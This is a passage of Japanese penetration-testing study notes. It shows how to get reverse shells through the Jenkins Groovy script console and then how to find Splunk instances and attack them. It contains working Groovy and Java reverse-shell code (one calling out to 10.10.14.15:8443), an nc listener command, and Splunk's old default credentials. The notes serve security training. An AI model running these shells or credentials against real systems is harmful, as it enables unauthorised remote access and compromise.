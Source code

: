 ### リバースシェルの取得
- スクリプトコンソールを利用して、リバースシェルを取得することも可能
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

```shell-session
nc -lvnp 8443
```

Windows上のJenkinsであれば、以下のようなコードで、Windows上でもコマンド実行が可能
```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

JavaによるWindows用リバースシェル
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


# Splunk
- ログ解析ツール、データの収集・分析・可視化につかわれる
- SIEM（セキュリティ情報イベント管理）ツールとして設計されたわけではありませんが、セキュリティ監視やビジネス分析に広く利用されている
- Splunkの導入環境には機密性の高いデータが含まれていることが多く、もし侵害されれば、攻撃者にとって非常に貴重な情報源となる可能性がある

実務での観測
- 内部ペンテストでは、Splunkの存在は非常によく見かける
- 特に大企業のネットワーク内では顕著
- 外部に公開されているSplunkもまれにありますが、それはかなり稀なケース
- Splunkは通常、脆弱性が少なく、パッチ適用も早いため、攻撃の対象としては堅牢
- しかし、弱い認証や認証なしの構成は危険
- Splunkに管理者アクセスが可能であれば、カスタムアプリを導入して権限昇格・横展開も容易になる

### 発見・フットプリンティング
- Linuxではroot、WindowsではSYSTEM権限で実行されていることが多い
- Splunkに焦点を当ててRCE（リモートコード実行）に繋げるのは有効な戦略

**デフォルトポートと認証情報**
- SplunkのWebサーバーはデフォルトでポート8000
- 古いバージョンのデフォルト認証情報
	- ユーザー名：`admin`
	- パスワード：`changeme`
最新バージョンでは…
- 現在のSplunkでは、インストール時に認証情報の設定が求められる
